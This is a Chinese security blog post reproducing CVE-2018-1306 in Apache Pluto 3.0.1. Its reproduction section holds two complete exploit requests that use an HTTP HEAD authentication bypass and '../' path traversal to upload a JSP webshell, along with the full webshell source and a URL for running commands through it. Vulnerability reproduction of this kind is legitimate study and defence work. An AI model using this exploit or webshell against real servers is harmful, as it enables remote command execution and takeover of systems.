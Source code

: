 ```yaml
---
layout: post
title:  "CVE-2018-1306-Apache Portals Pluto 任意文件上传漏洞 " 
date:   2019-08-05 11:03:16
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: CVE-2018-1306-Apache Portals Pluto 任意文件上传漏洞
cover: '/assets/img/posts/0d543f9aec58561aabc164648a1809d8.png'
---
```


### 漏洞概述

Apache Pluto使用Web.xml中的安全约束配置来控制对资源的访问，但是其中的安全约束配置存在缺陷，攻击者可以绕过身份验证。安全约束配置中，Pluto定义了GET、POST、PUT方法，由于未列出HEAD方法，因此可以使用HTTP HEAD方法来绕过安全约束策略。

并且PortletV3AnnotatedDemo Multipart Portlet war文件代码未限制和验证文件上传路径，攻击者可以利用"../"来自定义上传文件的保存路径。 利用两个设计缺陷进行配合，攻击者可以上传任意文件到任意文件目录，从而能获取服务器的webshell。

### 漏洞环境搭建

* 从 github clone 最新的源码 ：
  
  git clone https://github.com/apache/portals-pluto.git pluto

* 切换分支到3.0.1版本
  
  git checkout pluto-3.0.1

* 安装环境（ant 自动安装）
  
  ant -f dist-build.xml -DincludeDemos=true -DnoClean=true

* 启动环境
  
  进入到/pluto/target/dist/XXX/bin文件夹下，XXX为项目版本的文件夹
  
  运行startup.sh(\*nix)startup.bat(win)

### 漏洞复现

使用 burp 发送以下请求到 Apache Pluto：

```javascript
HEAD /pluto/portal/File%20Upload/__pdPortletV3AnnotatedDemo.MultipartPortlet%21-1517407963%7C0;0/__ac0 HTTP/1.1
Host: Host: 172.16.5.146:8080
Content-Type: multipart/form-data; boundary=XX
Content-Length: 727

--XX
Content-Disposition: form-data; name="file"; filename="jspshell.jsp"
Content-Type: application/octet-stream

<FORM METHOD=GET ACTION='jspshell.jsp'>
CMD: <INPUT name='cmd' type=text  value="cmd /c dir">
<INPUT type=submit value='Run'></FORM>
<%@ page import="java.io.*" %>
<%
    String cmd = "whoami";
    String param = request.getParameter("cmd");
    if (param != null){ cmd = param; }
    String s = null;
    String output = "";
    try {
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
    while((s = sI.readLine()) != null) { output += s+"\r\n"; }
    }  catch(IOException e) { e.printStackTrace(); }
%>
<pre><%=output %></pre>
--XX-- 
HEAD /pluto/portal/File%20Upload/__pdPortletV3AnnotatedDemo.MultipartPortlet%21-1517407963%7C0;0/__ac0 HTTP/1.1
Host: Host: 172.16.5.146:8080
Content-Type: multipart/form-data; boundary=XX
Content-Length: 748

--XX
Content-Disposition: form-data; name="file"; filename="../../../webapps/pluto/qiuge.jsp"
Content-Type: application/octet-stream

<FORM METHOD=GET ACTION='qiuge.jsp'>
CMD: <INPUT name='cmd' type=text  value="cmd /c dir">
<INPUT type=submit value='Run'></FORM>
<%@ page import="java.io.*" %>
<%
    String cmd = "whoami";
    String param = request.getParameter("cmd");
    if (param != null){ cmd = param; }
    String s = null;
    String output = "";
    try {
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
    while((s = sI.readLine()) != null) { output += s+"\r\n"; }
    }  catch(IOException e) { e.printStackTrace(); }
%>
<pre><%=output %></pre>
--XX--
```

webshell使用：http://172.16.5.146:8080/pluto/qiuge.jsp?cmd=hostname
